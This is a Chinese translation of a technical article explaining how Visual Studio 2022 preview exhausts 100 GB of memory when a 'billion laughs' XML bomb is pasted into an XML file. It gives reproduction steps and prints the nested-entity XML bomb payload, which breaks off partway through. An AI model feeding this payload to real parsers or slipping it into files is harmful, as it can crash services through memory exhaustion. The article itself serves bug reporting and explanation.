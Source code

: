 # Visual Studio 2022 如何耗尽 100 GB 内存，以及 XML 炸弹与此有什么关系

> 原文：<https://itnext.io/how-visual-studio-2022-ate-up-100-gb-of-memory-and-what-xml-bombs-had-to-do-with-it-3a92ed11c6cb?source=collection_archive---------1----------------------->

![](img/d7dbf6dbddd8cea26b4ab1b24a386256.png)

2021 年 4 月，微软宣布了其 IDE 的新版本——Visual Studio 2022——同时还宣布该 IDE 将是 64 位的。我们等待这一刻已经很久了——再也没有 4 GB 内存限制了！然而，事实证明，事情并不那么简单…

对了，如果你错过了，这里有一个[公告贴](https://devblogs.microsoft.com/visualstudio/visual-studio-2022/)的链接。

但是让我们来讨论这个问题。我在最新(撰写本文时可用)的 Visual Studio 2022 版本— 17.0.0 预览版 3.1 上重现了这个问题。

要重现这一点，以下内容就足够了:

*   使用空白解决方案模板创建新项目；
*   将 XML 文件添加到解决方案中。

之后，尝试将以下文本复制到 XML 文件中:

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 <!ENTITY lol10 "&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;">
 <!ENTITY lol11 
  "&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;
   &lol10;&lol10;">
 <!ENTITY lol12 
   "&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;
    &lol11;&lol11;">
 <!ENTITY lol13 
   "&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;
```